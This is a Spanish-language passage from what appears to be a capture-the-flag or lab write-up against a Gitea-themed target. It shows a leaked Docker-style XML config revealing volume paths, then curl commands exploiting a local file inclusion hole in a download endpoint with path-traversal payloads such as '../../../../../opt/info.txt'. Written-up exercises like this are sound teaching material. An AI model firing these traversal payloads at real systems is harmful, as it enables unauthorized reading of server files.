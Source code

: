 Ahora tenemos esta url con el codigo **XML** 
```bash
http://admin.s3cr3tdir.dev.gitea.dl/designer/giteaInfo/src/branch/main/gitea_composed.xml
```

Tenemos la siguiente informacion:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<gitea>
    <service>
        <name>gitea</name>
        <image>gitea/gitea:latest</image>
        <ports>
            <port>3000:3000</port>
            <port>222:22</port>
        </ports>
        <volumes>
            <volume>/home/designer/gitea:/data</volume>
            <volume>/home/designer/gitea:/data/info.txt</volume>
            <volume>/opt/"INFO_FILE"</volume>
        </volumes>
        <environment>
            <variable name="GITEA__database__DB_TYPE">sqlite3</variable>
            <variable name="GITEA__database__PATH">/data/gitea.db</variable>
        </environment>
        <restart>always</restart>
    </service>
</gitea>
```

Tenemos esta ruta que intentaremos apuntar con nuestro **LFI**
```bash
<volume>/home/designer/gitea:/data</volume>
<volume>/home/designer/gitea:/data/info.txt</volume>
```

---
## Explotacion de Vulnerabilidades
### Vector de Ataque
Ahora que tenemos informacion de dos rutas potencilaes intentaremos apuntar a ellas:

### Ejecucion del Ataque
Con esta no obtuvimos nada:
```bash
curl -s -X GET "http://gitea.dl/download?filename=....//....//....//....//home/designer/gitea:/data/info.txt"
```

```bash
# Comandos para explotación
curl -s -X GET "http://gitea.dl/download?filename=../../../../../opt/info.txt"
```
